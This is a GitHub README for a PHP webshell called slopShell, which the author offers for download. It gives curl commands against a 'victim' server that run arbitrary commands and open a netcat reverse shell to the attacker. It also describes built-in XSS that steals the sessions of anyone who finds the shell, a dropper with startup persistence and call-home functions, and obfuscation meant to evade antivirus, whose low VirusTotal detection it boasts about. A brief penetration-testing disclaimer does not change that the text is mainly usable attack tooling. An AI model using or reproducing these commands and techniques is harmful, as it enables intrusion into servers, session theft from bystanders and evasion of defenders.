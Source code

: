 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell. 

Basic Usage Video(Hosted on Youtube):

[![Video Showing Usage](https://i.ytimg.com/vi_webp/FywNszpfDJo/maxresdefault.webp)](https://www.youtube.com/watch?v=FywNszpfDJo)

Current VT Detection ratio: 2/59

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/8b792d74945ebf3d22828eaa22dec1d3df535247c6b741f003576e2be57195b9/detection)


Current VT Detection ratio (obfuscated version): 1/59
With the only detection marking it as suspicious.

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/858a2e7cf51f37b66392d47c8573eadb2aec4cdcc9e162e1df5cd08d44e19bef/detection)

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

---
## How to interact.

Firstly, you need to choose a valid User-Agent to use, this is kind of like a first layer of protection against your webshell being accidentally stumbled upon by anyone but you. I went with sp/1.1 as its a non typical user-agent used. This can cause red flags in a pentest, and your access or script to be blocked or deleted. So, be smart about it. Code obfuscation wouldnt hurt, I did not add that in because thats on you to decide. To use the shell, there are some presets to aid you in your pen test and traversal of the machine. I did not add much for windows, because I do not like developing for windows. If you have routines or tricks added or know about, feel free to submit an issue with your suggestion and ill add it. An example of how to use this webshell with curl:

`curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v`

or to execute custom commands:

`curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v`

Or to attempt to establish a reverse shell to your machine:

`curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v`

- mthd = the method you want to use to establish the reverse shell, this is predefined in the `$comma` array, feel free to add to it, optional, if it is null, the script will choose for you.
- rhost = you, now this and the rport are not required, as it defaults to using netcat with the ip address in the `$_SERVER["REMOTE_ADDR"]` php env variable.
- rport = your listener port, the default was set to 1634, just because.
- shell = the type of system shell you want to have. I know bash isnt standard on all systems, but thats why its nice for you to do some system recon before you try to execute this command.

Here is the better part of this shell. If someone happens upon this shell without supplying the exact user agent string specified in the script, this shell will produce a 500 error with a fake error page then it will attempt some XSS to steal that users session information and sends it back to a handler script on your server/system. This will then attempt to store the information in a running log file. If it is unable to do so, well the backup is your logs. Once the XSS has completed, this shell will redirect the user back to the root(/) of the webserver. So, youll steal sessions if someone finds this, can even beef it up to execute commands on the server on behalf of the user, or drop a reverse shell on the users browser through Beef or another method. The possibilities are legit endless.

---
## Images of use cases

In browser, navigated to without the proper user-agent string. (1st level of auth)
![](https://github.com/oldkingcone/slopShell/blob/master/in_browser.jpeg?raw=true)

Use in the terminal, which is how this was designed to work, using curl with the -vH "User-Agent: sp1.1" switches.
![](https://github.com/oldkingcone/slopShell/blob/master/use_in_terminal.jpeg?raw=true)


---

## Interacting through the client script

Once the client script is complete, you as the operator will not need to interact though curl to utilize this shell. There will be a client script that you can use to execute all commands/control over. In addition to this client script, there is a dropper. This dropper will ensure the script is run at start up even if the website is removed. Including some call home functions, obfuscation if it is requested on a level from 1 to 3, with 3 being the highest as every function will be rot ciphered and then encoded in base64 within the whole file being base64 encoded with a random name assigned to the file itself. This can help avoid signature detection. 


---
## Encryption

Once the encryption routine is fully worked out, the dropper script will be encrypted, and highly obfuscated.
Example output:
```
Base64 decoded: also a test 123
Re-Encoded: YWxzbyBhIHRlc3QgMTIz
Key: 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
Key Length: 96
Encryption Result:
Array
(
    [original] => also a test 123
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [base64_Encoded] => bWVJSAAdcw4veTZfVQU3VX43KE0=
)
Decrypt Test:
Array
(
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [decrypted] => YWxzbyBhIHRlc3QgMTIz
    [base64_decoded] => also a test 123
    [original] => also a test 123
)
```

---
## Additional

This was going to remain private. But I decided otherwise.

Do not abuse this shell, and get a signature attached to it, this is quite stealthy right now since its brand new.

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.



If you have enjoyed this script, its is obligatory that you follow me and throw a star on this repo... because future editions will have more features(or bugs) depending on how you look at it.

